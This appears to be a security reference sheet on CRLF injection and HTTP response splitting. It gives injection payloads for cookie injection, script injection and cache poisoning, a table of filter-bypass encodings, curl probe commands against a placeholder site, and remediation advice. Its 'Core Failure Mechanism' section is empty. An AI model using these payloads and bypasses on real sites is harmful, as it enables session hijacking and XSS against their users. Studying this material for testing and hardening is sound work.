

# Mechanism: CRLF Injection & HTTP Response Splitting

## 1. Architectural Vulnerability Profile
*   **Vulnerability Class:** Carriage Return Line Feed (CRLF) Injection / HTTP Response Splitting
*   **STRIDE Category:** Tampering, Information Disclosure, Spoofing
*   **Trust Boundary Crossed:** Untrusted User Input $\rightarrow$ HTTP Header Construction Pipeline (Web Server / Reverse Proxy / Application Gateway)
*   **Target Architectures:** Custom URL redirectors (`/redirect?url=...`), reverse proxies (NGINX, Apache, HAProxy), logging frameworks, and session-setting endpoints.

---

## 2. Core Failure Mechanism



---

## 3. High-Impact Attack Variations

### Variation A: Arbitrary Cookie Injection & Session Fixation
*   **Vector:** Injected `%0d%0aSet-Cookie:%20session_id=attacker_chosen_token;%20Domain=.target.com;%20Path=/`
*   **Impact:** Overwrites victim's active session or forces a known session before login, leading to pre-authentication ATO.

### Variation B: HTTP Response Splitting to XSS
*   **Vector:** Injected two CRLF pairs `%0d%0a%0d%0a<script>alert(document.domain)</script>`
*   **Impact:** Web server treats subsequent characters as the HTTP response body, executing client-side scripts even if `X-XSS-Protection` or Content-Type is restrictive.

### Variation C: Web Cache Poisoning via Injected Headers
*   **Vector:** Injecting `X-Forwarded-Host`, `Cache-Control: public, max-age=31536000`, or separate HTTP responses that intermediate caches store under unkeyed requests.
*   **Impact:** Persistent defacement and universal stored XSS for all incoming visitors.

---

## 4. Encoding & Filter Bypass Matrix

Modern WAFs and frameworks frequently block literal `\r\n` or `%0d%0a`. Test these alternative bypass encodings:

| Technique | Payload Representation |
|---|---|
| **Standard URL Encoding** | `%0d%0a` / `%0D%0A` |
| **Double URL Encoding** | `%250d%250a` / `%250D%250A` |
| **Unicode / UTF-8 Overlong** | `%c4%8d%c4%8a` / `%e0%80%8d%e0%80%8a` |
| **Unicode Full-width** | `%u000d%u000a` |
| **CRLF in Path Normalization** | `/%0d%0aSet-Cookie:test=1` (e.g. NGINX `$uri` variable) |
| **Single Character Variants** | `%0d` (CR only) or `%0a` (LF only) |

---

## 5. Offensive Audit & Verification Pipeline

```bash
# Probing via curl (Observe verbose headers)
curl -vs "https://target.com/redirect?url=https://safe.com%0d%0aX-Injected-Header:%20vulnerable" | grep -i "X-Injected-Header"

# Testing for Body Execution
curl -vs "https://target.com/%0d%0a%0d%0a<script>alert(1)</script>" -H "Host: target.com"
```

---

## 6. Remediation & Hardening
1. **Never Concatenate Raw Input into Headers:** Use framework built-in redirection helpers (e.g. Django `redirect()`, Spring `RedirectView`) which strip newlines automatically.
2. **NGINX Configuration:** Avoid using `$uri` in `return 301 https://$host$uri;`. Instead, use `$request_uri` which preserves strict URL encoding without normalization.
